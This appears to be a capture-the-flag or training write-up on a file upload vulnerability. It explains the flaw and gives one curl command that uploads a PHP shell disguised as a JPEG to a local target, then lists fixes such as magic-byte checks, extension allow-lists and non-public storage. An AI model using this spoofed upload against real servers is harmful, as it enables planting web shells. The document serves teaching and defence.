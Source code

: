 # File Upload

## 📖 Vulnerability Explanation
A file upload vulnerability occurs when a server doesn't validate an uploaded file properly.

## ⚙️ Exploitation Process

```
curl -s -X POST "http://localhost:9090/?page=upload" -F "uploaded=@shell.php;filename=shell.php;type=image/jpeg" -F "Upload=Upload" | grep flag
```

## 🔧 Fix
Sanitization process:
- Check file magic bytes
- Allow only certain extensions
- Generate a filename on the server
- Store files in a non accessible folder

## ☝️🤓 Advanced explanation
It is also possible to use a file processing tool, such as ImageMagick. However, it is crutial to make sure the packages are up to date, as it is very common to see vulnerabilities associated with these tools.